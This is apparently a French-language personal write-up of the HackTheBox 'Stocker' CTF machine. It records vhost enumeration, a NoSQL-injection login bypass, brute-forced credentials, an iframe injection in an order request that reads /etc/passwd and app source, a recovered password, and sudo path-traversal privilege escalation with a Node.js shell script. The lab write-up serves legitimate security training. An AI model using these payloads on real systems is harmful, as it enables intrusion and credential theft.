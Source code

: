 ```yaml
---
Platform: linux
Category: ctf
Difficulty: easy
Tags:
Status: pending
public: true
IP: 10.10.11.196
---
```

![[Pasted image 20230206230039.png]]




```
└─# gobuster vhost -u stocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/06 23:13:46 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 10409 / 220561 (4.72%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/02/06 23:14:15 Finished

```


vhost trouvé via vhost enumeration : dev.stocker.htb

Bypass de l'authent avec au format JSON une NoSQL injection :
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 54
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AFhbvDc7SEo_kF1-Bq2JuLGxucLWMeG5V.8UeivYzWZ%2BTMk30M8JbOTskUP1MWxYSf6%2BW3My5HcCo
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null}}
```

Tentative de SSTI avec ${7*7} et

Brute force du username : angoose
Brute force du password : b3e795719e2a644f69838a593dd159ac

"$;|^{{}}''"

{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0}

user length : 7  angoose
password length : 32 chars   

il y a un endpoint /api/products
							/api/po/
						
- il y a peut être d'autre endpoint en 2 chars ??
- revoir si on ne peut pas ajouter un product ou en modifier 1 ???
- pour peut être faire une SSTI ou LFI (via l'image) ?
- Voir à rebruteforcer et lister les bad chars (status  != 302)
	- voir ce qu'on pourraît faire avec ca ...?
					------------------
SSFI :

```
POST /api/order HTTP/1.1

Host: dev.stocker.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://dev.stocker.htb/stock

Content-Type: application/json

Origin: http://dev.stocker.htb

Content-Length: 214

Connection: close

Cookie: connect.sid=s%3Avl0rPp-i53IWRGNVdk7aCDRGnBn-yuyG.InPe1bsghz6TrAW2SEdKTwYuWY%2FTpy0bRLDr3Dh5jME



{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=/etc/passwd height=900 width=500></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```


password : IHeardPassphrasesArePrettySecure (from /var/www/dev/index.js)




privesc
```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

```

using sudo path traversal

```bash
# cat /tmp/rebrec/shell.js
const { spawn } = require('child_process')
const shell = spawn('sh',[], { stdio: 'inherit' })
shell.on('close',(code)=>{console.log('[shell] terminated :',code)})
```

```bash

```sudo /usr/bin/node /usr/local/scripts/../../../../../tmp/rebrec/shell.js


```